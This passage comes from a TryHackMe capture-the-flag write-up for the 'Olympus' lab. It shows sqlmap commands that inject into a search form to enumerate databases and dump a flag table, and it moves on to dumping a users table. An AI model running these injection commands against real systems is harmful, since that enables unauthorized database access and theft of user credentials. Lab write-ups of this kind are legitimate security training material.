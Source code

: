 ```bash
sqlmap -u "http://olympus.thm/REDACTED/search.php" --data="search=1337*&submit=" --dbs --random-agent -v 3 --tables
```
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/blob/pictures/olympus_pics/4.png">
</p>

Looks like there is an olympus database in there with a flag table, let's see if we can dump it..
```bash
sqlmap -u "http://olympus.thm/REDACTED/search.php" --data="search=1337*&submit=" --dbs --random-agent -v 3 --tables -T flag --dump
```
If you are curious about the specific switches that I'm using, take a look at the following article: https://hackertarget.com/sqlmap-tutorial/
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/blob/pictures/olympus_pics/5.png">
</p>

Alright, let's see what else we can find in this database, looking back at the tables, we see that there is a users table in the olympus database so let's dump that next and see what we get:
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/blob/pictures/olympus_pics/6.png">
</p>
